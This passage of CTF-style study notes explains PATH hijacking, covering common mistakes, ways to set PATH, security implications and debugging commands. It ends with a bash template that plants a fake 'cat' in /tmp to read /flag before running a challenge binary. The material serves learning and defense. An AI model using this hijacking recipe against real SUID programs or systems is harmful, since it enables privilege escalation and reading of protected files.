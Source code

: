 ### Common Mistakes:
- Forgetting to `export` PATH (child processes won't see it)
- Not making fake commands executable (`chmod +x`)
- Forgetting shebang (`#!/bin/bash`) in scripts
- Wrong PATH order (putting fake directory after real ones)
- Using spaces instead of colons in PATH
- Overwriting PATH instead of prepending: use `PATH=/new:$PATH`
- Not testing PATH changes before running challenge
- Forgetting that PATH affects ALL command lookups

### Alternative Methods:
- Prepending: `export PATH=/new:$PATH` (search new directory first)
- Appending: `export PATH=$PATH:/new` (search new directory last)
- Complete replacement: `export PATH=/only/this`
- Temporary for one command: `PATH=/tmp/fake:$PATH /challenge/run`
- Using command substitution in fake commands
- Calling real command from fake using absolute path

### Security Implications:
- PATH manipulation is a common privilege escalation technique
- Attackers can hijack commands to run malicious code
- Never trust PATH in untrusted environments
- SUID programs should use absolute paths internally
- Check PATH before running important commands
- Malware often modifies PATH in shell configs (`.bashrc`, `.profile`)
- Always verify `which command` shows expected binary
- In CTFs and pentesting, PATH hijacking is a key technique

### Debugging Tips:
- `echo $PATH` - view current PATH
- `which command` - find which binary will execute
- `type command` - show how shell interprets command
- `type -a command` - show all matching commands in PATH
- `ls -la /path/to/command` - verify permissions and ownership
- `cat /path/to/command` - inspect suspicious commands
- `/bin/bash --noprofile --norc` - start clean shell if PATH is broken
- `env` - view all environment variables including PATH

### Hijacking Command Template:
```bash
# 1. Create directory for fake commands
mkdir /tmp/fakecmds

# 2. Create fake command (example: cat)
cat > /tmp/fakecmds/cat << 'EOF'
#!/bin/bash
# Your malicious/helpful code here
/bin/cat /flag
EOF

# 3. Make it executable
chmod +x /tmp/fakecmds/cat

# 4. Prepend to PATH and export
export PATH=/tmp/fakecmds:$PATH

# 5. Run the target program
/challenge/run
```
